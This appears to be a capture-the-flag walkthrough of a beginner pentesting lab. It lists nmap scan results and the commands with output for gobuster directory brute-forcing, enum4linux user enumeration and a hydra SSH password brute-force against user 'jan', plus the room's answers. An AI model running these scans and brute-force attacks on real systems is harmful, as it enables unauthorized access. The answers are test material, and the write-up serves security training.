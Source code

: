 ```sh

PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
4126/tcp filtered ddrepl
8009/tcp open     ajp13?
8080/tcp open     http-proxy?

```

What is the name of the hidden directory on the web server.
Steps=run gobuster or dirb.  
Syntax
```sh
gobuster dir -u 10.10.67.50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt |tee gobuster_results.txt
```

```sh
/development          (Status: 301) [Size: 316] [--> http://10.10.67.50/development/]
```
A=`development`


## Q3
- User brute-forcing to find the username & password.  

- use enum4linux program to find users.  

```sh
	enum4linux 10.10.67.50 |tee enumeration.txt
```

```sh

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

```
## Q4
What is the username?  
A=`jan`

## Q5
What is the password?  
- here we are going to use hydra.  

```sh

	hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.67.50 ssh
```
